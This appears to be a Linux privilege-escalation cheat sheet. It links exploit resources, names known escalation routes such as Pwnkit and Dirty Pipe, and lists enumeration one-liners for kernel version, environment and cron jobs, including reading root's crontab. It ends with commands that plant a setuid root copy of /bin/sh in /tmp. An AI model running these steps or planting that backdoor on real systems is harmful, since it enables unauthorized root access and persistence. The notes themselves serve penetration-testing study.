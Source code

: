 GTFObins / LINUX

[https://gtfobins.github.io/](https://gtfobins.github.io/)
LOLBAS / WINDOWS
[https://lolbas-project.github.io/](https://lolbas-project.github.io/)
Pwnkit
dirty pipe
+w docker.sock
reddit overlayfs

```shell
(cat /proc/version || uname -a ) 2>/dev/null
```

```shell
lsb_release -a 2>/dev/null # old, not by default on many systems
```

```shell
cat /etc/os-release 2>/dev/null # universal on modern systems
```

```shell
echo $PATH
```

```shell
(env || set) 2>/dev/null
```

```shell
cat /proc/version
```

```shell
uname -a
```

```shell
searchsploit "Linux Kernel"
```

[https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

```shell
crontab -l
```

```shell
cat /etc/crontab
```

```shell
ls -al /etc/cron* /etc/at*
```

```shell
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

```bash
cp /bin/sh /tmp
chown root:root /tmp/sh
chmod +s /tmp/sh
```